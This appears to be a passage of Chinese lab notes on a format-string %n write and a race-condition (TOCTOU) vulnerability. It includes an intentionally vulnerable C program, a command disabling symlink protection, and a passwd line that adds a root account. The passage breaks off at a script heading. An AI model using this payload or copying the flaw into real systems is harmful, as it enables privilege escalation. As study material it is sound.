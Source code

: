 ![image.png](https://i.loli.net/2020/11/17/x8a9krh7ZQB6jCV.png)

![image.png](https://i.loli.net/2020/11/17/nGbgVHqe2OAjRTx.png)``

![图片20200630135541.jpg](https://i.loli.net/2020/11/17/LwxTCGJEM6oBqVs.jpg)

k$直接选择第k个可变参数，

例：
`printf("%5$.20x%6$n\n",1,2,3,4,5,&var);`

# 竞争条件漏洞

```c
    /*  vulp.c  */
    #include<unistd.h>
    #include <stdio.h>
    #include<string.h>

    int main()
    {
       char * fn = "/tmp/XYZ";
       char buffer[60];
       FILE *fp;

       /* get user input */
       scanf("%50s", buffer );

       if(!access(fn, W_OK)){

            fp = fopen(fn, "a+");
            fwrite("\n", sizeof(char), 1, fp);
            fwrite(buffer, sizeof(char), strlen(buffer), fp);
            fclose(fp);
       }
       else printf("No permission \n");
    }
```

accsee()和fopen()函数之间有竞争条件问题。

首先禁用保护措施（限制一个程序是否可以使用一个全局可写目录中的符号链接）：

```
$sudo sysctl -w fs.protected_symlinks=0
```

passwd_input：

```
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

target_process.sh：
